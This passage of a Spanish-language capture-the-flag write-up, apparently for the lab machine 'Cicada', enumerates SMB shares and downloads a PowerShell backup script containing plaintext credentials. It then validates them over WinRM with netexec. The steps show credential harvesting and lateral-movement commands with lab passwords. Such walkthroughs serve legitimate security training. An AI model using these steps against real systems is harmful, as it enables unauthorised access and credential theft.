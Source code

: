 Y ahora tenemos permisos de escritura.
```console
$ smbmap -H 10.129.69.107 -u david.orelious -p 'aRt$Lp#7t*VQ!3'
[+] IP: 10.129.69.107:445       Name: CICADA-DC.cicada.htb                              
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     READ ONLY
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
```

Encontramos un script en powershell, lo vamos a descargar.
```console
$ smbclient \\\\10.129.69.107\\DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

                4168447 blocks of size 4096. 329203 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (3,2 KiloBytes/sec) (average 3,2 KiloBytes/sec)
```

Este es el script.
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```

Y están las credenciales de `emily.oscars`

Podemos comprobar que son válidas con `netexec`
```console
$ nxc winrm 10.129.69.107 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
WINRM       10.129.69.107   5985   CICADA-DC        [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
WINRM       10.129.69.107   5985   CICADA-DC        [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
```
